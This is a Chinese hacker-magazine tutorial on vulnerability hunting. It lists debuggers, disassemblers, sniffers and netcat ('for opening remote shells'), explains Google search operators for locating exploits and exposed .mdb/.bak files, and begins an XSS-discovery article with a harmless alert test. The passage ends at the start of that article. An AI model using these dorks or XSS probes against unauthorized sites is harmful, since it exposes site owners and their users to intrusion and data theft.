如果你想要发现漏洞，成为一个真正具有严格意义上的漏洞发掘者，我建议你认真学习本文内容，因为没有一个良好的测试环境以及一些发掘漏洞的基础知识，就像一个没有武器的士兵上了战场，连自己的生命都无法保证，更何从谈起来获取功勋呢？计算机领域的漏洞不是单凭肉眼就能发现的，我们需要特定的工具去把它转换成我们能认识的模样，然后充分地发掘它们。这里面很关键的一个基础是你至少要掌握一门计算机语言。更准确地说，你要明白程序运作的流程，进而去看懂别人的程序实现过程。很多时候我们可以有机会得到我们想要发掘的目标程序的原始代码，如果你完全看不懂这些代码在干什么，那么你就更不可能从中发掘出那些神秘而隐蔽的漏洞。

大部分时候，我们面临的情况是根本就没有目标程序的原始代码，只凭借仅有的一些信息，例如 Windows 操作系统（虽然说 Windows NT 和 Windows 2000 有部分代码已经泄漏），我们只知道它怎么使用，有哪些功能，而且很多功能我们也许还不知道，这个时候，我们只能通过某些工具性软件去间接地研究其工作过程，如果你没有编写过程序，那么你绝对不会懂得怎样研究这些未公开代码的商业软件了。关于这一点，我个人认为 C 语言是最好的选择，因为很多语言的结构都是仿照 C 语言来开发的，这些我们可以称之为类 C 语言，例如 VC、Python、Perl 等等。还有一些是比较结构化的，这种语言多出自于一些解释型的语言，例如 VB，这些语言的结构或许跟 C 语言有较大区别，但你要是学会了 C 语言，想看懂这些解释型的语言代码也并不是一件难事。如果可能，你还想要更加深入地学习漏洞发掘技术，那么还必须要会操作系统编程，懂得 OS 运行原理，很多漏洞其实就出在操作系统内部。要知道，一个操作系统级别的漏洞，影响范围可是非常可怕的。

> “工欲善其事，必先利其器。”

对于学习漏洞发掘技术来说，我们也必须有一套专门用于漏洞发掘的工具，专门搭建能够充分发挥这些工具的平台。漏洞本身不像是一段直白的文字，你可以直接看见它的存在，读懂它的意思，如果这样我们就不用再谈什么发掘漏洞这么个高深的词语了，因为人人可以发现漏洞，也就不需要学习专门的漏洞发掘技术了。工具的好坏直接决定着我们是否能够发掘出漏洞，能发现出多少。发现一个漏洞不像买彩票那样，全凭借运气，我们要有技术在手，利用技术与工具的搭配去发掘出这些埋在深处的安全隐患。这是一件非常辛苦的事情，但过程却是充满乐趣与挑战的。本文的内容主要集中在对发掘漏洞的工具以及发掘环境的选择、使用上，将现在主流的两个操作系统 Windows 以及 Linux 下的优秀漏洞发掘工具一一作一个介绍。你应该学会熟练使用这些工具，因为它们将会帮助你更加出色地学习好漏洞发掘这门技术。

## 发掘工具

对于程序员来说，他会根据不同的产品项目选择不同的编程平台，进而完成对产品的开发。对于一个学习黑客技术的人来说，也是如此。出色的工具会给我们带来事半功倍的效果。有时一些漏洞只能在特定工具下才能显现出来，所以我这里选择出最常用，也最为通用的工具作为漏洞发掘使用的代表，你应该牢记和掌握它们，因为它们将会马上成为你的“武器”。

### 1. 编码工具

编码工具主要是指那些用于进行程序开发的代码编辑、编译软件。程序员可以通过这些工具开发出自己的产品。你一定会想，我们又不进行程序开发，为什么还要准备这些工具软件，原因正是因为我们要分析的目标程序会利用这些软件进行编写开发，如果我们有了目标程序的代码，那么这些软件对目标程序的支持一定是最好的。假设我们准备要分析的目标程序是一个局域网传输软件“飞鸽传输”，这款软件是用 VC6 编写的，那么我们就完全可以利用 VC6 来打开飞鸽传输的原始代码，VC6 会把这些代码组织得有条有目，结构清晰。反之，如果你把它的代码用记事本打开，虽然你还是能看到代码本身，但那几乎是乱成一片，什么类对应什么函数，你不能一目了然，除非你花很多时间来重新组织代码结构，但是这是一件非常浪费时间的事情。需要准备编码工具的另外一个原因是，我们在进行漏洞发掘时，往往需要编写一些特定目的的小工具，利用这些自己写的小工具来进行辅助发掘。尤其是在对一些大型程序进行漏洞发掘时，我们会常常使用暴力测试的方法来发掘漏洞，关于这一点我将在以后的“Fuzzing 的魅力”一文中详细描述。我们可以利用编码工具来编写出一些自动化的漏洞发掘工具，这样可以很好地提高我们的效率。所以，我们应该掌握一种语言以及它的编码工具，这样才能更好地发掘出漏洞。

- 1) Visual C++ & .NET

Visual C++ 以及 .NET 是微软开发的编程开发环境。在 Windows 环境下，Visual C++ 以及 .NET 是非常不错的软件开发工具。由于 VC 与 Windows 系统底层良好的结合性，使得一些比较大型的软件开发都会使用 VC 作为开发平台，例如大型的数据库、视频会议系统等。因此在研究大型软件漏洞的时候，我们常常会与 VC 打交道，因此我们在后续的一些漏洞发掘技术讲解中也将会有重点地给大家介绍 VC 程序的漏洞发掘技巧。同时，对于 .NET 开发的程序我们照样不能放过，它的研究技巧其实也是一样的，只是利用难度会变大一些。

- 2) gcc

与 VC 相比，Linux 下的 gcc 是 C/C++ 最好的编译器，对于发掘 Linux 下的软件，包括系统本身的漏洞会有很大帮助。gcc 一般是随 Linux 系统自带安装的，并不需要额外的安装，你甚至可以利用它来编译 Linux 的内核。

- 3) NASM & MASM

汇编语言是一个软件型漏洞发掘者必须要掌握的一门语言，无论什么样的高级语言总会转到汇编一层，尤其是在漏洞的跟踪和利用上。NASM 凭借其开源的优秀性，成为 Linux、BSD 下的汇编开发环境。它也可以编写出 Windows 下的程序，但是很多人在 Windows 下还常常使用 MASM 进行汇编开发。

法上的区别，建议在考虑通用性期间使用 NASM 更好一些。

- **4) Perl & Python**  
在发掘漏洞的过程中，往往为了准确定位漏洞出现的时机，我们常需要进行枯燥的漏洞触发测试。如果有一个简单的办法能替代我们的手工测试，那它一定就是强大的 Perl 或者 Python 语言了。这些脚本语言会非常简单地帮助我们实现自动化测试，或者写出一个 PoC（proof of concept）程序来证明漏洞的存在。

- **5) Dreamweaver**  
我常常在想，应不应该把这个软件也列为一个漏洞发掘中必不可少的工具呢？大量的事实证明，在对 Web 型的漏洞发掘中，Dreamweaver 起到了非常关键的作用。关于这一点我会在“Web 型漏洞的发掘技术”一文中给大家详谈。

## 2. 调试工具

这里所说的调试工具主要指的是对软件进行调试的软件。正如我们前面说的，漏洞不会清楚地摆在我们的面前，必须利用工具将它们换一种方式表现出来，尤其是那些我们并没有程序原始代码的情况下，我们该如何发掘漏洞，其中的一个办法就是利用这些调试工具来对目标程序进行分析了。

软件调试，顾名思义就是对软件开发使用中出现的错误进行刨根溯底的分析。一般来讲，软件调试是为了排除软件存在的 Bug 而进行工作的，主要是对软件的一个动态跟踪，也就是说是在软件运行期间的 Bug 排除。但对于我们来说，调试技术可以帮助我们揭示程序的运行流程、工作原理，将极大方便我们查找软件可能存在的漏洞。

### 1) OllyDBG

OllyDBG 绝对是 Windows 下的出色调试工具。很多情况下在调试应用层软件漏洞的时候，我们常常会选择它。更何况 OllyDBG 支持插件功能，数不清的插件为这款工具大大增色。

### 2) SoftIce & WinDbg

如果你钟情于 Windows 内核漏洞，那么就要考虑使用 SoftIce 或者 WinDbg 了。前者是一款名声显赫的调试程序工具，后者则是微软自己的一款开发工具，两者都是可以调试底层程序的出色软件。

### 3) gdb

gdb 是 Linux 下最常使用的调试工具了，因为它就跟系统本身捆绑着，能明显地告诉你程序运行的细节、寄存器值等等。

## 3. 反汇编工具

在对那些没有原始代码的软件进行漏洞发掘的时候，我们除了使用调试技术外，还有一种选择就是反汇编技术。反汇编技术的思路主要是利用了所有在计算机上运行的程序都是以二进制码的形式存在，而这些二进制码又对应着相应的汇编语言指令。在不同的操作系统平台下，这些指令集的格式不同，但都可以将程序转换成这些较为清晰结构的汇编指令。有了这些汇编指令，我们完全可以通过细心地分析将程序的运作流程分析出来，这样就能从中发现那些隐藏的漏洞了。我们这里先不涉及反编译工具，因为其种类异常丰富，考虑到通用性，本文首先选择介绍反汇编工具，它是反编译工具的一个分类。

### 1) IDA

如果说调试叫做动态捕捉漏洞，那么 IDA 就是静态捕捉漏洞的明灯，强大而出色的反汇编能力，使得 IDA 成为所有黑客的必备软件。在软件破解领域，它依旧同样出色。

### 2) WD32asm

这款软件的名声在初级的 Cracker 中还是很耳熟的，作为一款反汇编软件来讲，虽然其功能无法与 IDA 相比，但是 IDA 总体是面向逆向工程的，而只从反汇编功能来说，WD32asm 已经足够强大了。

## 4. 编辑工具

有时为了将漏洞表现得更明显或者想要更好地利用，我们需要修改软件甚至系统本身的限制，而这个时候程序都是以二进制形式存在的，普通的文本查看软件是不能够显示这些特殊字符的，所以我们要使用一些专门的编辑工具，这些编辑工具可以将这些目标程序转换成十六进制，从而将其显示出来，这样我们就可以进行随意修改了。

或许你常常碰到这样一种情况，就是你虽然有了程序的原始代码，但是因为是在不同的系统下开发的，你一时找不到这样的系统环境，而你又想发掘出这些代码中的漏洞，那么你就可以利用一些提供代码分析功能的编辑工具。利用这些编辑工具，就可以将这些难以用普通文本编辑软件显示的代码清晰地显示出来，方便我们进行临时性的代码漏洞分析工作。

### 1) WinHex

WinHex 不仅仅提供了文件修改功能，更加可贵的是它还具有内存编辑查看能力。在面对漏洞涉及不可视字符的时候，也就是说字符不属于 ASCII 码表表示范围内的时候，利用 WinHex 的十六进制功能就可以作相应调整了。

### 2) NotePad++

除去那些软件编程语言以外，我们还有很多 Web 开发语言。既然是发掘漏洞，我们就都要有所顾及。如果把这些语言的开发软件全部装到一起去，那也太占空间了，所以我推荐使用 NotePad++。不要以为它是 Windows 下的记事本，它其实是一个开源的文本处理软件，会按照一定语言结构来显示代码，方便阅读，更方便我们寻找漏洞。这个软件的功能更在于可以将代码按照开发语言的不同而分颜色显示，十分有利于我们长时间研究代码而不至于眼花。

## 5. 监视工具

监视工具是我们要在“监视技术”一文中使用的工具。漏洞的表现往往不局限于那些能够直接看到的代码，如果仅凭借调试或者反汇编的方法去寻找，我们只能找出程序本身自己的一些问题，而有些程序是分为两个部分的。例如网络软件，就既有客户端又有服务端，这个时候就不能单纯地只看一面。我们知道这些软件最关键的部分其实是数据交换，也就是网络通讯。网络型的软件是依靠在网络中交换数据包来工作的，另外一些软件则是在本地环境中进行交换数据信息的，例如 Word，Word 打开一个 doc 文档其实就是一个获取本地数据信息的过程。对于这些有着信息交换的软件，我们完全可以换一个思路去分析这些被交换数据是否存在问题，如果伪造、修改这些信息会不会发生什么意想不到的事情，而这就可以让我们发掘出一些新的漏洞来。要捕获这些交换数据以及交换发生时的状态，最好的办法就是利用监视技术。监视技术将告诉我们关于目标程序更多的信息，帮助我们发现更多的漏洞。

### 1) FileMon

文件系统监视工具，准确告诉你文件系统变化以及使用过程，有利于分析漏洞成因。它是一款出色的文件系统监视软件，可以监视应用程序进行的文件读写操作，能将所有与文件一切相关操作（如读取、修改、出错信息等）全部记录下来以供用户参考，并允许用户对记录的信息进行保存、过滤、查找等处理。

### 2) RegMon

与 FileMon 相同，只不过是监视注册表变化的利器。RegMon 是一个出色的注册表数据库监视工具，它能显示并记录所有与注册表数据库操作相关的信息，为系统分析提供了便利。

### 3) Sniffer

发掘漏洞不单单是本地的，还要更多地与网络打交道。那些隐藏在网线中的数据，往往会成为我们发现漏洞的关键，而这就需要 Sniffer 这样的软件。Sniffer 只是一个笼统的称呼，只要是可以捕捉数据包的软件我们都可以拿来利用。但是它捕获的数据包最好足够详细，因为一些 Sniffer 只是监视数据包中可视的内容。在 Windows 下最好使用 CommView 这款软件。当然，再好一点的就是 Wireshark，它本身带有的协议格式分析功能确实能帮助我们在研究网络型漏洞时起到省时省力的作用。

### 4) Winsock Expert & NC

如果玩过动网上传漏洞，一定很熟悉 Winsock Expert 这款软件。在监视浏览器的数据提交中，它能够很好地捕获数据包，使用 Sniffer 有时会显得比较笨重，所以在对 Web 程序漏洞的发掘中，Winsock Expert 足够胜任。NC 就是我们俗称的“瑞士军刀”了。它的功能很多，不但可以用来提交数据包，还可以帮助我们建立远程 shell。在传统的入侵中，其文件小、作用大的本事使得我们不得不提到它。

### 5) Process Explorer

它主要是监视进程以及 DLL、Handle 的生存情况，有助于我们明确软件运行期间的问题所在。它是一款增强型的任务管理器，可以使用它方便地管理程序进程，能强行关闭任何程序（包括系统级别的不允许随便终止的“顽固”进程）。

## 多环境调试

如果你曾经发掘过漏洞，或者看过一些关于漏洞发现的文章，你也许会发现漏洞有时是一个非常不稳定的状态。对于同样一个脚本漏洞，在解析时会出现错误，把 Opera 安装在 Windows 下也会出现错误，但是一进入 Linux，再试图用 FireFox 浏览器测试时，竟然没有任何异常发生。这就是漏洞的局限性，你所在的系统平台有时起到了一个决定性的作用。或者有这样的情况，一个缓冲区溢出漏洞，在 Windows 2000 下表现十分明显，利用异常发生时的调用一个 call ebx 来获得任意代码执行权，却在 Windows XP SP1 下难以利用。查阅资料你会发现，原来在 Windows XP SP1 下，异常发生时的 ebx 寄存器被清零，老的方法不再适用这里。同时，一些漏洞也只能在某一种版本的系统下才能出现，例如比较新的 TIFF 图像文件溢出漏洞，它就是存在于 Windows 2000 系统下的，其它版本的 Windows 不受影响。

还有一种情况就是补丁包的存在。对于那些可执行程序以及操作系统而言，每一个产品都有一个弥补自身缺陷的机会，也就是使用补丁技术。微软层出不穷的补丁是大家有目共睹的。同样，在你发掘漏洞的时候，最好先将那些已经有的补丁打上以后，再去寻找漏洞，这样才能保证你的漏洞是最新的，也就是那些“0Day”漏洞。当然，对于发掘漏洞技术本身而言，主要重视的是“发现”，而不是结果。

对于一个漏洞，最好在多个平台环境下进行测试跟踪，往往它的表现模式就会发生很大改变。所以我建议你，如果要发掘 Windows 系统下的漏洞，那么将现在常用的系统，如 Windows XP/2003/Vista 都安装一下；如果是 Linux 下的，那么最好再装装 FreeBSD 之类的系统做测试。现在问题来了，这么多的操作系统，不可能在一台电脑上装好了，再格式化换一个装，或者找上五六台电脑，每一台装一种。这样对于个人来讲太耗人力物力了，对机器也是一种折磨。我们要选择更好并且能省钱的一种方式来实现这个目标，这就是使用“虚拟机”技术。

“虚拟机”，顾名思义就是在操作系统本身上实现一个虚拟环境。虚拟机是运行在 Windows 或 Linux 计算机上的一个应用程序，这个应用程序“模拟”了一个基于 x86 的标准 PC 的环境。这个环境和普通的计算机一样，都有芯片组、CPU、内存、显卡、声卡、网卡、软驱、硬盘、光驱、串口、并口、USB 控制器、SCSI 控制器等设备，提供这个应用程序的“窗口”就是虚拟机的显示器。

Windows 下使用的虚拟机一般是微软自己开发的 Virtual PC，它对微软自己的操作系统支持较好，Linux 下的则是 Bochs，使用它你甚至可以编写自己的操作系统。但是总的来说，VMware 是一款更为通用的虚拟机软件。为了能够更好地搭建测试环境，建议大家安装使用 VMware Workstation 5.5 及其以后的版本，因为这些版本的 VMware 可以支持安装 Vista 了。

使用虚拟机还有一个好处，就是如果你现在发现的是一个系统级别的漏洞，或者说是驱动程序的漏洞，那么很可能在研究发掘的过程中，你的电脑会因此而经常蓝屏，迫使你重启电脑。而对于虚拟机来说，你只需要做的就是轻点鼠标让软件重新开始运行而已，这对电脑本身而言减小了伤害，也不会使你因此而丢失宝贵数据。当然在重启软件的时候，你还可以查看虚拟机崩溃日志，这更加方便了你调试系统漏洞，明确在系统崩溃时各寄存器的数据以及内存情况，从而进行下一步的测试发掘。

## 老资格的经验

没有一个黑客敢承认自己是一个“全能王”，计算机无尽的知识，不是一个人就能完全掌握的。黑客只是一个探索者，热情于不断挑战自己知识的极限。在自己知识不能满足的时候，我们需要正确选择资料来帮助我们度过难关。这里我按照漏洞性质分类来有针对性地介绍一些参考资料。

### 1）Web 应用型的漏洞

这一类的参考资料，最基础的是你要分析的 Web 程序代码是什么语言编写的，ASP 还是 PHP，每一种语言最经典的教程就是你最好的参考资料。其次是数据库知识；为什么要牵扯数据库？既然是 Web 应用，那么数据的保存、处理必不可少，这就要使用到数据库。常用的数据库集中于 Access 数据库、MSSQL、MySQL、Oracle，不常用的如 Sybase、PostgreSQL 等等。无论形式怎样，数据库都是使用一种结构化语言进行操作，这种语言就是“Transact-SQL”。在应用到每个实际 Web 语言中，数据库基本操作都不会有什么太大出入，所以你只要找一本数据库基础的书，就已经够用了。当然，对于每一种数据库而言，其本身还有一定扩展功能，如 MSSQL 提供的一些存储过程，这些扩展往往可以扩大我们发现的漏洞的破坏性。你可以针对实际面对的数据库来查询它本身自带的帮助文档，一定会收获不小。

### 2）软件漏洞

谈到发掘软件漏洞，我不建议你学会每一种语言再去找漏洞，你此时最好的选择就是根据漏洞具体形式找资料。例如是 Windows 下的 VC 编写的软件发现一个缓冲区溢出漏洞，你要找的就是 Win32 以及 MFC 的相关信息；如果是 Linux 下的一个系统级别漏洞，你就要找到 Linux 下源代码这部分的实现，以及一些 OS 知识。由于软件漏洞类型的多样化，其参考资料也是五花八门的，但每一种总有一篇经典的文章或者资料可以作为参考模板。在下面的表 1 中，我把自己常用的资料列出来，大家可以在其中找自己需要的参考资料。

| 软件型漏洞名称 | 参考资料 |
|---|---|
| 溢出漏洞 | Faiwest 在黑防上的文章堪称经典，大家可以查阅 |
| XSS 漏洞 | 参考 http://blackunion.cn 上关于 uusee 的文章 |

表1

还有，对于一个新的软件来说，你想要学会使用它时，一般最好的教程就是软件本身所带的帮助功能。如果你经常使用微软的产品，你会发现键盘上的“F1”功能键常用于调出帮助文档。仔细查阅这些文档，你可以从这些使用方法中明白该软件的大体工作流程，这对于我们发掘漏洞是很关键的，并且这还免去了你后面要使用繁杂的反汇编软件来逆向软件流程。

## 充分利用网络资源

> “君子善假于物”

这句话翻译成现代话就是真正的高手是善于使用身边一切资源的。在这个信息急速发展的时代，如果你成天封闭在一个狭小的房间里，单单依靠几本落伍的资料去发掘漏洞，那么你会发现，也许别人需要一天的时间就能发现的漏洞，你也许要花一个礼拜时间去调试，或者你根本就没有发现任何有用的东西。时间是宝贵的，技术是更新的，你必须要不断学习。在互联网如此普及的年代里，传统的学习模式逐渐被网络学习模式取代，一个初入计算机的人，也许只要一个月的时间，在网上学到的知识就会比一个读了四年大学本科计算机系毕业的学生知道的多。

如果说高手开始的第一步是打下一个坚实的基础，那么他的第二步就是为这个基础添砖加瓦。就连全世界影响最大的黑客大会“BlackHat”在 2006 年的一篇演讲题目中也这样写到：“从 RSS 以及搜索引擎里去寻找未公布漏洞”。这里的“RSS”就是一种起源于网景的推广技术，将订户订阅的内容传送给他们的通讯协同格式；而搜索引擎对于常常上网的朋友来说几乎是耳濡目染。每当我们要找一篇文章或者歌曲时，其作用就凸显出来，用极短时间给你最多的选择来获得你想要的信息，这就是搜索引擎存在的目的。对于学习黑客技术的我们，一定要充分利用这极好的机会，让网络成为我们的一个超级书库、超级资源库。

下面我就以全球最著名的搜索引擎“Google”，来教大家一些极其有用的使用技巧，这些技巧常常被称为“Google Hack”。虽然搜索引擎能够帮助我们找寻我们想要的资源，但还是提供了太多的选择。例如你试图在 Google 里键入“爱无言”，你会发现它会找到很多，诸如一首王杰的歌曲名，或者某篇文章的题目，甚至是类似“真爱才无言”这样的分开式词语，而我们的目的只是想要找到一个名叫“爱无言”的黑客的一些资料而已。现在，这些技巧会帮助我们更加准确地定位到我们需要找寻的资料，从而缩短盲目性。学习之前你可以思考一下要是你会怎样寻找黑客“爱无言”的资料，本小节后面我会告诉你怎样就能准确定位这个查询。

为了提高搜索引擎的查询质量，我们可以简单理解为准确性。Google 提供了一套规则语法，用 Google 中的一些语法可以提供给我们更多的信息，同时可以帮助我们准确地找到一些关于漏洞的敏感信息，下面就来介绍一些常用的语法。

- **intext**：就是把网页中的正文内容中的某个字符作为搜索条件。例如在 Google 里输入“intext: exploit”，将返回所有在网页正文部分包含 exploit 的网页。  
- **intitle**：和上面的 intext 差不多，搜索网页标题中是否有我们所要找的字符。例如搜索“intitle: 漏洞”，将返回所有网页标题中包含“漏洞”的网页。  
- **define**：搜索某个词语的定义，搜索“define: hacker”将返回关于 hacker 的定义。  
- **filetype**：搜索指定类型的文件。例如输入“filetype:c”将返回所有以 c 结尾的文件 URL，这一点有助于我们找到一些关于漏洞的利用程序，也就是 exploit，因为一些 exploit 就是 c 文件。当然，如果你找 .bak、.mdb 或 .inc 也是可以的，获得的信息也许会更丰富。  
- **info**：查找指定站点的一些基本信息，可以用来找一些关于漏洞公布的网站信息。  
- **inurl**：搜索我们指定的字符是否存在于 URL 中。例如输入“inurl:exploit”，将返回类似于这样的链接：http://www.xxx.com/exploit，这可以用来找那些不太出名的漏洞网站公布的漏洞信息。我曾使用这个办法找到了一个俄罗斯人的漏洞网站，他公布的一些漏洞信息相当有水平。allinurl 也同 inurl 类似，可指定多个字符。  
- **link**：例如搜索“link:www.blackunion.cn”可以返回所有和 www.blackunion.cn 做了链接的 URL。  
- **site**：这个也很有用，例如“site:www.blackunion.cn”将返回所有和 www.blackunion.cn 这个站有关的 URL。  

现在我们来试想一下，如果想要找一些关于微软的最新漏洞信息，要知道这些信息一般在微软的网站上只是简单的一句话“某某系统存在一个安全隐患，所以……”，这种信息没有任何意义，这让我们很难向下发掘漏洞。这时，来用 Google 吧。我们可以试一下在搜索栏里键入“intext: ms07021”，看一下什么结果，一大堆内容，看起来不好判断哪个有用。再来“intext: ms07021 exploit”，看起来好像有结果了。类似这样的办法，我们可以一步一步地找到想要的信息。总体来说，要想找到最新的漏洞，尤其是国外软件的漏洞，最好用的就是 Google；而对于国内的漏洞，百度也算不错。除使用搜索引擎之外，最好是要收集一些不错的漏洞公布网站，尤其是原创网站，排除那些不正规、老是使用转载方式更新的安全网站。

“留意 blog”，这是我最想告诉大家的一个好的漏洞信息来源。无论国外还是国内，一些安全高手的个人网站往往是以 blog 形式存在的，例如 qyzv、0x557 组织、superhei、大傻钟等。这些高手的 blog 记录的不仅仅是他们个人心情的日志，还有技术上的心得，更难得的是他们发现的一些不为人所知的漏洞。无论脚本上的还是应用软件层面的，都有深入的解析，哪怕是只言片语都有利于我们发现研究。

好了，到这里我们的准备活动总算是做完了。下次的文章我们将正式进入漏洞发掘技术的探讨学习当中，相信在下一期《黑客防线》到来的时间里，你会努力掌握本文中涉及到的知识、方法与工具，这些资源还需要你消化一段时间。等消化得差不多了，我们的“黑客漏洞发掘技术内幕系列之三”的饕餮大餐就会送到了。差点忘了，还没告诉你怎么搜索我的名字“爱无言”呢。作为一个娱乐，你可以试一试，在 Google 里键入“黑客防线 爱无言”，你会看到什么呢？之所以这么搜，是因为我们利用了关键字组合的技巧，爱无言是黑防的作者，所以把“黑客防线”与“爱无言”联系起来，不就可以找到我们想要的资料了吗？

- 适合读者：漏洞爱好者  
- 前置知识：无  

## 黑客漏洞发掘技术内幕系列之三

## XSS脚本漏洞发掘技术


文／图 爱无言

互联网的出现是一个“世界革命”，信息化的时代被科技演绎得迅猛异常。每天的新闻或者报纸上我们都能看到诸如Yahoo网站收入过数亿，谷歌成为互联网第一搜索引擎等。但是，在这些令人兴奋的数字背后，在你还充分享受“上网”冲浪的快感时，也许你不知道每一分钟都会有将近千台服务器遭受着攻击，全球每一天都会出现上百种的新病毒。你也许不相信会这么夸张，那么我们来看看一组数据，相信它们会让你信服。2004年国内著名的ASP型论坛动网论坛程序出现漏洞，导致官方主站被人上传脚本木马程序。2005年盛大公司的官方网站被人安装网页木马程序；同年，腾讯、网易等国内免费邮箱供应商的Email系统被人利用传播恶意代码。这里列举的都是有名的大型网站，那些数以万计的小型网站的情况更是不可言喻。情况如此糟糕的原因其实都归结于这些服务器所用的Web应用程序存在漏洞。拿几个全世界最著名的漏洞公布网站的数据进行一次统计，每年各种报告的漏洞中，Web程序的漏洞所占比例是40%，而这些漏洞中危害等级为高的近乎70%。也就是说，对于一个使用某种Web应用程序的服务器来说，它就有七成的比例会被攻击者入侵，这个比例是相当高的。当这些服务器被成功攻击后，就会被安装上木马或者病毒，服务器访问者一旦访问了这些网站就会被间接地攻击，导致成为别人的受控电脑。

Web应用程序漏洞是种类最多的漏洞，因为Web程序的易开发性使得开发人员有时会变得马虎，不注意基本的安全防范。更重要的原因是开发人员很少真正认真地做好Web程序的调试工作，只要自己编写出的程序不出现什么大的问题，能够达到使用目的，甚至有时为了美观、外表的华丽，开发者竟然牺牲掉一些安全的代码编写方式，这些在调试器中很难具体判断到。Web程序的调试器也只是基于代码流程的执行是否成功，不能将逻辑判断联系到代码调试中，这样更加大了那些漏洞存在的隐蔽性。现在的网站服务器管理者都会采用他人已开发好的一些成品Web应用程序，一旦这些程序出现问题就会导致成片的网站被人攻击。Web应用程序不像软件应用程序，它的代码可以被记事本这样的工具直接查看到，虽然有些Web程序采用加密，或者封装成DLL的形式来避免源代码的暴露，但还是有人找到了如何破解这些防范手段的方法，例如对于.NET程序封装的DLL库，可以使用Reflector进行反编译来获得查看原始代码的机会。有了最原始的代码，任何人都可以修改这些代码，任何人也可以分析这些代码来发现程序中的漏洞。Web程序的漏洞多半是那些比较有经验的开发者或者安全研究者发现出来的。但是，因为Web程序的漏洞自身有一定的固定表现形式，所以有时一些安全爱好者也能够发现属于自己的Web程序漏洞，这些发掘方法都是带有照猫画虎的意思在里面，一旦程序编写得较为复杂就很难再发掘出什么漏洞。所以本文内容在总结一些常见Web程序漏洞发掘模式的基础上，将一些比较系统化的发掘方法也列举出来，避免读者进入那些盲目的“学别人怎么弄，自己不知道原因”的死胡同。有效的方法能够为我们节省时间，更能为我们准确找到漏洞而提供帮助，这一点是无需质疑的。下面我们就正式进入关于Web漏洞的发掘之旅第一节——XSS脚本漏洞的发掘技术。

根据服务器返回的数据，把这些数据按照一定的方式自动解析排版后，展现在你的面前。当然，提交数据、解析数据的工作都是在你不知道的情况下由浏览器进行的。正因为要解析数据，而网络上的这些资源数据非常庞大，不能盲目地将任何数据直接返回给用户看，而且要组织好这些数据也是非常难的。

## XSS漏洞基础

XSS脚本漏洞起初是被叫做“CSS”脚本漏洞的，英文全称是Cross Site Script，即跨站脚本攻击。为了与网页开发时经常使用的CSS（Cascading Style Sheets）技术相区分，有人建议把跨站脚本攻击改个名字，于是就成了XSS。XSS漏洞攻击具体指的是，恶意攻击者向Web页面插入恶意脚本代码，当用户浏览该网页时，嵌入在正常Web页面中的恶意代码会被执行，从而达到攻击用户、获取用户信息，甚至获取网站权限的特殊目的。大体上讲，XSS属于被动式的攻击，因为它常常是将恶意代码嵌入正常网页后，攻击者等待用户访问这个网页从而触发漏洞被利用。也正因为其被动且不好利用，所以许多Web程序的开发者常常忽略其危害性。但是现在这种情况已经有所改变，因为一些新的利用思路使得XSS漏洞成为了网站最大的安全隐患，甚至因为XSS的存在导致蠕虫病毒的爆发。著名的MySpace蠕虫就是一个典型的例子。而将XSS改变成为一种主动攻击模式的，恐怕是来自国外的一种叫做“XSS木马”的技术。这种利用XSS漏洞进行攻击的技术区别于以往的攻击模式，当某个正常用户访问被放入XSS木马脚本的网站时，XSS木马脚本会被自动执行，而其目的就是远程访问一个由攻击者提供的网址，这个网址会返回一些简化的命令或者一些带有另外目的的脚本，这些命令或脚本真正执行攻击者想要的目的，并且攻击者可以修改这个网址返回的内容，等待用户再次访问那个存在XSS木马的网站时，又会被执行另外一段恶意脚本，从而实现了攻击者主动改变攻击命令实现攻击的目的。

如果你猛然一听“跨站脚本攻击”，一定会被这个名字吓住，认为这是一种非常厉害而高深的技术。不过，跨站脚本攻击有时就像一门艺术，一旦学会就可以利用你的想象力来构造跨站语句，但XSS漏洞的存在原因却很简单。我们都知道，在使用微软自带的IE或者别的任意一款浏览器上网时，浏览器在这期间的主要工作就是向你将要访问的网站服务器提交请求访问，然后根据服务器返回的数据，把这些数据按照一定的方式自动解析排版后，展现在你的面前。

国际上管理互联网的组织W3C为此专门做了一些统一标准，这些标准将复杂的数据按照一定格式排序。浏览器，包括网站服务器，只需按照这些标准解析数据就能达到良好的显示目的。更多的时候，这些标准可以将网站的内容显示得具有特色、美观漂亮，从而赢得更多用户访问。最早时候推出的标准是HTML（超文本协议），后来为了动态效果的出现，JavaScript以及VBScript也加入了网页制作中。时至今日，AJAX开始盛行。正是这些标准的出现，使得我们可以在网页中加入我们想要的代码，而这些代码就可以实现我们想要的目的。因此，只要合理地组合这些符合标准的代码，我们也完全可以实现获取用户Cookie信息、诱使用户在不知道的情况下访问其它网址。我们这里举一个最为简单的例子，在JavaScript语言中，`alert`函数是一个可以弹出指定内容的对话框操作函数。只要我们往网页代码中加入一个`<script>`标签，然后引入alert函数，就会令所有访问这个网页的用户浏览器弹出一个对话框。这里为了更加直观，我们直接测试浏览器本身对JavaScript语句的解析。在浏览器地址栏中键入`javascript:alert('xss');`（不包括双引号），回车，会出现如图1所示的结果，我们清楚地看到浏览器弹出了一个带有“XSS”标记的对话框。


图1

XSS漏洞的危害远不止我们上面说的这些。因为XSS的出现，就是因为这些恶意的代码脚本被浏览器下载在本地电脑上，然后解析执行，导致XSS甚至可以对你所在的网络进行破坏。目前已经有人利用XSS实现了一些需要专门的网络应用程序才能做的事情，例如利用XSS来进行端口扫描。越来越多的XSS漏洞攻击利用方法，使得XSS漏洞被列入了危害等级严重的漏洞类型之一，所以如果发掘出一个XSS漏洞，千万别小瞧了它的存在。

## 发掘XSS漏洞的方法

要分析XSS漏洞，我们首先来看看XSS漏洞的攻击形式。一般来讲，XSS漏洞的攻击形式有两种：一种是利用来自于目标程序本身的编写不严，导致被利用成为XSS；另一种则是利用其它存在XSS漏洞的程序或者网站，甚至人为制造一个XSS网页，然后在目标程序中套嵌入链接，引诱用户点击后，间接性地被XSS攻击。前一种攻击方式是我们最常关注的XSS漏洞攻击，而后一种则因为其依赖其它非目标程序的漏洞显得非常隐蔽和难以防范，常被大多数人忽略。所以要想将这两种漏洞形式都发掘出来，我们必须有一个全面而有效的方法进行测试发掘工作。这里我们介绍两种较为有效的XSS漏洞发掘技术：一种是基于源代码的关键变量提交测试，一种是基于页面表单分析的测试技术。

### 1）基于源代码的关键变量提交测试

首先介绍的是基于源代码的关键变量提交测试技术。这种发掘方法是最为容易的一种，它的前提条件是：你对要发掘的目标程序拥有源代码，最好是全部代码，如果只是部分也可以，但这将减小你发掘漏洞的几率。对源代码的获取现在来说已经不成问题，国内有很多大的网站源代码下载站点，包括那些自行开发网站程序的组织，例如动易、时讯等等都有自己的源代码下载站点，你可以从那里下载源代码后来分析其漏洞。

